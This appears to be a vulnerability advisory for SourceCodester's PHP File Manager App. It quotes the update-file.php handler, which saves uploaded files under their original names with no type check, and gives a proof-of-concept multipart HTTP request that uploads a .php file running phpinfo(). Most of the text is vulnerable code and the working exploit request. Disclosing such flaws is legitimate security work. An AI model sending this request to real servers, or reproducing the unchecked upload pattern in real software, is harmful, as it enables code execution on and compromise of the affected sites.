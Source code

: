 # SOURCECODESTER / File Manager App - Arbitrary File Upload update-file.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://www.sourcecodester.com/php/16919/file-manager-app-using-php-source-code.html

## Affected Component
> /endpoint/update-file.php

## Code
```php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $fileID = $_POST["fileID"];
    $fileTitle = $_POST["fileTitle"];
    $fileUploader = isset($_POST["fileUploader"]) ? $_POST["fileUploader"] : "";

    $newFileName = null;

    if ($_FILES["file"]["name"]) {
        $uploadDirectory = "../file-uploads/";
        $newFileName = $_FILES["file"]["name"];
        $targetFilePath = $uploadDirectory . $newFileName;

        // Check if the file already exists
        if (file_exists($targetFilePath)) {
            echo "
            <script>
                alert('A file with the same name already exists. Please choose a different name for your file.');
                window.location.href = 'http://localhost/file-manager-app/index.php';
            </script>";
        } else {
            // Delete the old file, if it exists
            $sqlGetOldFileName = "SELECT file FROM tbl_file WHERE tbl_file_id = :fileID";
            $stmtGetOldFileName = $conn->prepare($sqlGetOldFileName);
            $stmtGetOldFileName->bindParam(':fileID', $fileID);
            $stmtGetOldFileName->execute();
            $oldFileName = $stmtGetOldFileName->fetchColumn();

            if ($oldFileName) {
                $oldFilePath = $uploadDirectory . $oldFileName;
                if (file_exists($oldFilePath)) {
                    unlink($oldFilePath);
                }
            }

            if (move_uploaded_file($_FILES["file"]["tmp_name"], $targetFilePath)) {
                // File uploaded successfully
            } else {
                echo "Error updating the file.";
                exit;
            }
        }
    }
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST //endpoint/update-file.php HTTP/1.1
Host: localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryF7Zu0E9rZB71ybiz
Content-Length: 519


------WebKitFormBoundaryF7Zu0E9rZB71ybiz
Content-Disposition: form-data; name="fileID"

11
------WebKitFormBoundaryF7Zu0E9rZB71ybiz
Content-Disposition: form-data; name="fileTitle"

NoChizPlz
------WebKitFormBoundaryF7Zu0E9rZB71ybiz
Content-Disposition: form-data; name="file"; filename="NoChizPlz.php"
Content-Type: application/php

<?php phpinfo()?>
------WebKitFormBoundaryF7Zu0E9rZB71ybiz
Content-Disposition: form-data; name="fileUploader"

NoChizPlz
------WebKitFormBoundaryF7Zu0E9rZB71ybiz--
```

## Screenshot
![img.png](Arbitrary%20File%20Upload%20-%20update-file%2Fimg.png)

